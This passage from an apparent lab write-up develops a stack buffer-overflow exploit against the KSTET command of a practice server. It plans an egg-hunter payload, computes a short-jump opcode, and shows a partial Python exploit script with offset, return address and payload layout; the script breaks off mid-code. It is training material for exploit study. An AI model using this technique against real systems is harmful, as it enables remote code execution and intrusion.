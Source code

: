 Now, we have a small issue. Our crash length was 100 and our offset is at 66. That is a very small space to put shellcode in. My proposed solution is to use a 3-stage payload.

1. Perform a short jump back into the "A"s that we used to overflow.
2. Replace the beginning "A"s with an egg hunter.
3. Inject an egg, as well as our shellcode, into memory by using a separate command. We will use TRUN in this case.

-----

## Payload Stage 1: Short Jump

First thing we need to do is calculate the opcode for a short jump back 70 bytes (66 bytes for the offset, 4 for the EIP). We can do this using a nasm shell.

```bash
msf-nasm_shell
```

![](images/nasm.png)

As shown, our opcode is `EBB8`. We are going to pad this with NOPs to get the full 8 bytes: `0x9090B8EB`. Let's set a break point and verify this works.

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.178.94"
port = 9999

prefix = b"KSTET /.:/"
crash_length = 100

# msf-pattern_offset -l 100 -q 41326341 
offset = 66

jmp_esp = 0x62501203
new_eip = struct.pack("<I", jmp_esp)

short_jump = struct.pack("<I", 0x9090B8EB)

payload = b"".join([
    prefix,
    b"A" * offset,
    new_eip,
    short_jump,
    b"C" *  (crash_length - len(prefix) - offset - len(new_eip) - len(short_jump))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
```